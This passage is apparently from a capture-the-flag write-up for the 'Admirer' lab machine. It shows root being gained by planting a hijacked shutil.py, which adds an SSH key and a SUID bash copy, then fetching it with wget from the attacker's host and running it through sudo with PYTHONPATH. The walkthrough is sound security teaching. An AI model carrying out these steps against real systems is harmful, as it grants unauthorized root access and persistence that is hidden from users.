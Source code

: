 This script uses `os.system` to do each of the things described above. The first calls `mkdir -p` which will create the directory if it doesn’t exist, and happily return and continue if it does. Then it uses `echo` to append my key to `authorized_keys`.

The second simply copies `/bin/bash` to `/var/tmp/.0xdf`, sets the owner as root, and sets the permissions to SUID.

I also included a definition of the `make_archive` function. This will prevent the script from crashing. This is unnecessary in this case where I’m the user running the script. But if I were leaving this for an unsuspecting user to come along and run later, this will prevent errors from being thrown when `backup.py` tries to load the function. If I wanted to go further, I could have this function actually create the archives as expected.

#### Run It

Now I’ll run this exploit with two commands. Upload it to Admirer with `python3 -m http.server 80` on my VM and `wget`:

```

waldo@admirer:/var/tmp$ wget 10.10.14.47/exploit.py -O shutil.py
--2020-05-05 12:14:50--  http://10.10.14.47/exploit.py
Connecting to 10.10.14.47:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 800 [text/plain]
Saving to: ‘shutil.py’

shutil.py                         100%[===========================================================>]     800  --.-KB/s    in 0s      

2020-05-05 12:14:50 (123 MB/s) - ‘shutil.py’ saved [800/800]

```

Run `admin_tasks.sh` calling the web backup option (6):

```

waldo@admirer:/var/tmp$ sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...

```

Now I can use either path to root. SSH:

```

root@kali# ssh -i ~/keys/id_rsa_generated root@10.10.10.187
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May  5 12:14:18 2020 from 10.10.14.47
root@admirer:~#

```

